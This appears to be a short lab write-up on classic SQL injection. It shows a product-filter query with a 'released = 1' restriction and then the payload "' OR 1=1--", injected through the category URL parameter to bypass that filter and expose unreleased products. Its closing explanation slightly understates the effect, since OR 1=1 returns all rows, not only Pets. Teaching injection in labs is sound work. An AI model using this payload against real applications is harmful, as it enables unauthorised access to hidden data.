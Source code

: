 # Retriveral of Hidden data

normal query when a category is asked to retrive the data 

```
select * from products where category =  'GIFTS' and released = 1
```
the released=1 is restriction to hide the unreleased data 

end goal : to display all the unreleased and released products

```
select * from products where category =  'pets' and released = 1
```

this query returns all the released data from category PETS

Now lets make payload

```
-> select * from products where category =  'Pets' OR 1=1 --' and released = 1

execution
-> url = /filter?category=Pets' OR 1=1--
```

<p>'--' will comment out the query AND RELEASED = 1 and 1=1 is always true, so this will return all the unreleased data from Pets category</p>

